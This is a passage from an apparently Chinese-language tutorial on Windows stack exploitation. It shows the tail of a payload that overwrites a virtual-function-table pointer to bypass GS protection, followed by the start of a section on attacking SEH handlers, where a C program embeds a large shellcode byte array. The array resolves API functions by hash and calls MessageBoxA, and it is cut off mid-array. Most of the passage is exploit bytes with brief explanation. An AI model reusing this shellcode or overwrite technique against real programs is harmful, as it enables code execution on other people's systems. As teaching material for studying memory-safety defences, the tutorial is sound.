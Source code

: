 ```plain
    0x2C, 0xBB, 0x95, 0x5F, 0xAB, 0x57, 0x61, 0x3D,
    0x6A, 0x0A, 0x38, 0x1E, 0x75, 0xA9, 0x33, 0xDB,
    0x53, 0x68, 0x77, 0x65, 0x73, 0x74, 0x68, 0x66,
    0x61, 0x69, 0x6C, 0x8B, 0xC4, 0x53, 0x50, 0x50,
    0x53, 0xFF, 0x57, 0xFC, 0x53, 0xFF, 0x57, 0xF8,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0xFD, 0x19, 0x00 
};
```

我们将文本文件设置为这样，即可完成攻击。  
\==解释：==  
最后的 0x0019FD90 是函数 gsv 的原始参数，覆盖到函数的虚函数表地址，即可让程序将我们的 shellcode 解析为虚函数表，然后取前四个字节（0x19FCBD）去执行，0x19FCDB 指向我们 shellcode 的第 2 个 0x90，这样即可完成攻击。

## 3.攻击异常处理绕过 GS

GS 是提供了一些保护，但是经过前面的介绍，相信大家还是能发现许多问题：比如，没有对 SEH 做保护，那我们就可以来攻击程序的异常处理了：  
我们来看看这个程序：

```plain
#define _CRT_SECURE_NO_WARNINGS
#include <stdio.h>
#include <Windows.h>

char szBuffer[] = {
    0xD9, 0xEB, 0x9B, 0xD9, 0x74, 0x24, 0xF4, 0x31,
    0xD2, 0xB2, 0x77, 0x31, 0xC9, 0x64, 0x8B, 0x71,
    0x30, 0x8B, 0x76, 0x0C, 0x8B, 0x76, 0x1C, 0x8B,
    0x46, 0x08, 0x8B, 0x7E, 0x20, 0x8B, 0x36, 0x38,
    0x4F, 0x18, 0x75, 0xF3, 0x59, 0x01, 0xD1, 0xFF,
    0xE1, 0x60, 0x8B, 0x6C, 0x24, 0x24, 0x8B, 0x45,
    0x3C, 0x8B, 0x54, 0x28, 0x78, 0x01, 0xEA, 0x8B,
    0x4A, 0x18, 0x8B, 0x5A, 0x20, 0x01, 0xEB, 0xE3,
    0x34, 0x49, 0x8B, 0x34, 0x8B, 0x01, 0xEE, 0x31,
    0xFF, 0x31, 0xC0, 0xFC, 0xAC, 0x84, 0xC0, 0x74,
    0x07, 0xC1, 0xCF, 0x0D, 0x01, 0xC7, 0xEB, 0xF4,
    0x3B, 0x7C, 0x24, 0x28, 0x75, 0xE1, 0x8B, 0x5A,
    0x24, 0x01, 0xEB, 0x66, 0x8B, 0x0C, 0x4B, 0x8B,
    0x5A, 0x1C, 0x01, 0xEB, 0x8B, 0x04, 0x8B, 0x01,
    0xE8, 0x89, 0x44, 0x24, 0x1C, 0x61, 0xC3, 0xB2,
    0x08, 0x29, 0xD4, 0x89, 0xE5, 0x89, 0xC2, 0x68,
    0x8E, 0x4E, 0x0E, 0xEC, 0x52, 0xE8, 0x9F, 0xFF,
    0xFF, 0xFF, 0x89, 0x45, 0x04, 0xBB, 0x7E, 0xD8,
    0xE2, 0x73, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x8E,
    0xFF, 0xFF, 0xFF, 0x89, 0x45, 0x08, 0x68, 0x6C,
    0x6C, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2E, 0x64,
    0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xDB, 0x88,
    0x5C, 0x24, 0x0A, 0x89, 0xE6, 0x56, 0xFF, 0x55,
    0x04, 0x89, 0xC2, 0x50, 0xBB, 0xA8, 0xA2, 0x4D,
    0xBC, 0x87, 0x1C, 0x24, 0x52, 0xE8, 0x5F, 0xFF,
    0xFF, 0xFF, 0x68, 0x6F, 0x78, 0x58, 0x20, 0x68,
    0x61, 0x67, 0x65, 0x42, 0x68, 0x4D, 0x65, 0x73,
    0x73, 0x31, 0xDB, 0x88, 0x5C, 0x24, 0x0A, 0x89,
    0xE3, 0x68, 0x58, 0x20, 0x20, 0x20, 0x68, 0x57,
    0x64, 0x49, 0x67, 0x31, 0xC9, 0x88, 0x4C, 0x24,
    0x04, 0x89, 0xE1, 0x31, 0xD2, 0x52, 0x53, 0x51,
    0x52, 0xFF, 0xD0, 0x31, 0xC0, 0x50, 0xFF, 0x55,
    0x08, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
```